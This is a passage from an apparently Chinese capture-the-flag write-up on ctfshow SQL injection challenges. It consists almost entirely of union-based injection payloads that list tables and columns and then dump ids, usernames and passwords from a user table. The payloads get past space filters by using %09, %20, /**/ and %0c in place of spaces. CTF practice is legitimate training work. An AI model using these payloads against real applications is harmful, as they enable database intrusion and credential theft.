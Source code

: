 ```
1'%09union%09select%091,2,group_concat(column_name)%09from%09information_schema.columns%09where%09table_name='ctfshow_user'%23
```

```
1'%09union%09select%091,2,group_concat(id,username,password)%09from%09ctfshow_user%23
```

### **%20 绕过**

```
1'%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
```

```
1'%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name='ctfshow_user'%23
```

```
1'%20union%20select%201,2,group_concat(id,username,password)%20from%20ctfshow_user%23
```

### /**/绕过

```
1'/**/union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()%23
```

```
1'/**/union/**/select/**/1,2,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='ctfshow_user'%23
```

```
1'/**/union/**/select/**/1,2,group_concat(id,username,password)/**/from/**/ctfshow_user%23
```

### %0c 绕过

```
1'%0cunion%0cselect%0c1,2,group_concat(table_name)%0cfrom%0cinformation_schema.tables%0cwhere%0ctable_schema=database()%23
```

```
1'%0cunion%0cselect%0c1,2,group_concat(column_name)%0cfrom%0cinformation_schema.columns%0cwhere%0ctable_name='ctfshow_user'%23
```

```
1'%0cunion%0cselect%0c1,2,group_concat(id,username,password)%0cfrom%0cctfshow_user%23
```



## 4.--+过滤
